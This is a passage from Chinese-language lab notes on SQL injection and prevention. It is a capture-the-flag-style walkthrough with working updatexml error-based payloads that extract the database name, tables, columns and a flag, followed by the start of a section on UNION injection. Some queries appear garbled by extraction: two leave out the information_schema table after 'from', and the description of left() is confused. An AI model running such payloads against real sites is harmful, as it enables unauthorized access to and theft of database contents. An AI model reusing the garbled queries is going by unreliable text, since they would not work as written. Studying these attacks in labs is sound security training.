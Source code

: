 - right(character, length):字符串从右数  length 长度字符，  如right("123456", 3)返 回"456"

- left(column_name, start, length)：  字符串从左数第start开始length长度字符，

  left("123456",1,3)或left("123456",3)返回"123"

- mid(column_name, start, length)：  选取某个字段的前几个字符

  SELECT mid(name, 1, 2) FROM user; 返回name字段的前2个字符

- substr(column_name, start, length), 同  mid

![image-20241128172132303](https://image.201068.xyz/assets/15_1.SQL注入及防范/image-20241128172132303.png)

![image-20241128172137119](https://image.201068.xyz/assets/15_1.SQL注入及防范/image-20241128172137119.png)

•    根据源码提示确定字符串闭合使用  `')`

•    根据题目和提示消息，利用updatexml()的报错信息进行注入，  获取数据库名称，  

其中  concat() 函数用于连接字符串；  

0x7e是 ~ 的十六进制，  不符合xpath语法格式，  会报错

```bash
?id=1') and updatexml(1, concat(0x7e,(select database()),0x7e),1)--+
```



```bash
使用  information_schema 查询数据库中的表
?id=1') and updatexml(1, concat(0x7e,(select group_concat(table_name)
from where table_schema = 'ly_netlab '),0x7e),1)--+

查询表中字段名
?id=1') and updatexml(1, concat(0x7e,(select group_concat(column_name)
from where table_name = 'flag '),0x7e),1)--+

查表中数据，  此时另一个  ~ 并未显示说明查的结果不全
?id=1') and updatexml(1,concat(0x7e,(select group_concat(flag) from   flag),0x7e),1)--+
使用right函数获取未显示字符，  合并后得到flag
?id=1') and updatexml(1,concat(0x7e,(right((select group_concat(flag) from flag), 10)),0x7e),1)--+
```

### 联合注入 

UNION 操作符合并两个或多个 SELECT 语句的结果，  内部的每个 SELECT 语句必须拥有相同数 量的列，  列也必须拥有相似的数据类型，  每个 SELECT 语句中的列的顺序必须相同;

UNION联合注入往往是最实用的，  因为判断了回显位后就可以拼接语句获取数据库信息，  当然 如果权限允许也可以在information_schema中查看全部数据库信息

在查询过程中可能会遇到查询结果有多个数据，  但页面只显示一段，  可以使用concat()、 group_concat()等函数将组中的字符串通过分隔符连接成为单个字符串

![image-20241128172339269](https://image.201068.xyz/assets/15_1.SQL注入及防范/image-20241128172339269.png)

![image-20241128172343191](https://image.201068.xyz/assets/15_1.SQL注入及防范/image-20241128172343191.png)

根据源码提示确定使用单引号闭合，  在id后添加单引号，  构成SQL语句 
